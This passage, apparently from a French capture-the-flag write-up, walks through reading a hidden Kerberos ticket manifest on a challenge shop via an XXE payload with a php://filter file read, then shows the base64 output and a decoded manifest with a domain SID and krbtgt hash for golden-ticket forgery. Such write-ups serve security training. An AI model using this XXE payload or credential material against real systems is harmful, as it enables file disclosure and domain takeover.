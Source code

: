 On a maintenant les IP internes de l'entreprise Pramacorp.

#### À la recherche du ticket d'or perdu

Bien joli tout ça, mais il nous manque quelque chose d'essentiel, un moyen d'usurper une identité sur l'active directory.  
En se rappelant l'énoncé, on sait qu'un ticket kerberos de pramafil.corp est à vendre sur willywonka.shop:4242.  
Les tickets sont donc stockés quelques part. Mais où ? À nous de le découvrir.  

On tente un upload d'un nouveau ticket sur le shop. On fait bien attention aux pages liés à cette manipulation, notamment les commentaires.
Le développeur du shop a souhaité renseigner le vendeur du ticket do'ù il était stocké dans les commentaires de la page une fois l'upload terminé.

```
<!-- first need admin validation -->
<!-- then, will be saved in /home/willywonka/tickets/$filename/MANIFEST.xml and ticket.kirbi -->
```

Voilà un chemin très clair. Il ne reste plus qu'à trouver le $filename. Le premier essai sera pramafil (Rappelez-vous que le shop l'affiche en "available").

Payloads de la XXE:

```xml
<!DOCTYPE entreprise [  
<!ELEMENT entreprise ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/willywonka/tickets/pramafil/MANIFEST.xml">
]>
```

Résultat en base 64:

```
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPHJvb3Q+Cgk8ZW50cmVwcmlzZT5QUkFNQUZJTDwvZW50cmVwcmlzZT4KCTxwcml4QlRDPjEyIEJUQzwvcHJpeEJUQz4KCTxhZHJlc3NlQlRDPjNKRFNZeERWWXF0aDFVaUdSZlVmc2UzREo3SDNGSDhlQzE8L2FkcmVzc2VCVEM+CgoJPGRvbWFpbj5QUkFNQUZJTDwvZG9tYWluPgoJPGFkbWluPkFkbWluaXN0cmF0b3I8L2FkbWluPgoJPHNpZD5TLTEtNS0yMS0xNTQxODE3MjE5LTMxOTUxMDA0MDQtNDA4ODgzMjg2Njwvc2lkPgoJPGtyYnRndD40ZDVlMDYxNzcyMGVlNWVhZjIxODMwZmQ4ZDhmNzVlYTwva3JidGd0Pgo8L3Jvb3Q+Cgo= 
```

Ce qui nous donne le manifest suivant :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <entreprise>PRAMAFIL</entreprise>
    <prixBTC>12 BTC</prixBTC>
    <adresseBTC>3JDSYxDVYqth1UiGRfUfse3DJ7H3FH8eC1</adresseBTC>

    <domain>PRAMAFIL</domain>
    <admin>Administrator</admin>
    <sid>S-1-5-21-1541817219-3195100404-4088832866</sid>
    <krbtgt>4d5e0617720ee5eaf21830fd8d8f75ea</krbtgt>
</root>
```
